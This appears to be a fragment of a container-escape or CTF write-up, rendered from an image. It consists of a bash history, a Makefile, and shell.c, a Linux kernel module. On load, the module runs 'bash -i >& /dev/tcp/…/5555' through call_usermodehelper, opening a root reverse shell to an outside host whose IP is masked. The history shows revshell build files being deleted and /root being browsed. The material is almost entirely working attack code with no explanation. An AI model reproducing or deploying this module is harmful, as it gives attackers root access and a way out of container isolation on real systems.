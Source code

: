 ```bash
rm revshell.mod.c 
rm revshell.mod.o 
rm revshell.o 
clear
ls
cd /home/
ls
cd /root/
ls
exit
ls
cd templates/
ls
cat index.html 
nano index.html 
exit
exit
exit
```

<h2>Makefile</h2>

```bash
root@d221f7bc7bf8:/tmp# nano Makefile
```

```bash
obj-m +=shell.o
all:
	make -C /lib/modules/6.8.0-1030-aws/build M=$(PWD) modules
clean:
	make -C /lib/modules/6.8.0-1030-aws/build M=$(PWD) clean
```

<h2>shell.c</h2>

```bash
root@d221f7bc7bf8:/tmp# nano shell.c
```

```bash
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kmod.h>

MODULE_LICENSE("GPL");

static int shell(void){
	char *argv[] ={"/bin/bash", "-c", "bash -i >& /dev/tcp/xx.xxx.xx.xxx/5555 0>&1", NULL};
	static char *env[] = {
		"HOME=/",
		"TERM=linux",
		"PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL };
	return call_usermodehelper(argv[0], argv, env, UMH_WAIT_PROC);
}

static int init_mod(void){
	return shell();
}

static void exit_mod(void){
	return;
}

module_init(init_mod);
module_exit(exit_mod);
```
